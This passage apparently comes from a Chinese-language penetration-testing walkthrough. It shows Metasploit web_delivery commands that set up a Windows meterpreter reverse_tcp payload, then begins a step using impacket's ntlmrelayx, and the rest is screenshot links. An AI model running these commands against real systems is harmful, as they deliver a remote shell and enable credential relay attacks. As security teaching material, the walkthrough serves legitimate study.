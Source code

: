 [![](assets/1701222524-9ddf2ec01c3c56bed91183eda9193a37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144811-18e6d4f8-8dba-1.png)  
Step 2：启动 MSF 的 exploit/multi/script/web\_delivery 模块

```bash
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
run
```

[![](assets/1701222524-e479f9ed95d1f026099de749deb3c196.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144838-291949be-8dba-1.png)  
Step 3：启动 impacket 的 ntlmrelayx 模块
